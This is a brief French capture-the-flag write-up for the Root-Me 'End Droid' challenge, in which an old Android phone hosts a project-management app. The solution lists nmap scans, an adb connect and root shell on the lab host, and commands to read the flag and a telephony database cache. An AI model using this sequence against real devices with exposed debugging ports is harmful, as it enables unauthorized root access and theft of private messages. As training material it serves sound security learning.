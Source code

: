 # End Droid

## 15 Points 
### La fin d’Android a sonné !

## Énoncé
Un petit groupe d’étudiants a voulu changer les vieilles habitudes et choisir un vieux téléphone Android comme serveur afin d’héberger leur application de gestion de projets.

Parviendrez-vous à récupérer les communications secrètes qu’il contient ?

## Solution

nmap -p- -sV ctf09.root-me.org
nmap -p 22000, 8080, 5555 -A -sV ctf09.root-me.org

adb connect ctf09.root-me.org
adb root
adb shell

cd data/root

cat flag.txt

cd /data/user/0/com.android.providers.telephony/databases/cache

afficher le seul fichier à l'intérieur, c'est celui ou se trouve le flag.

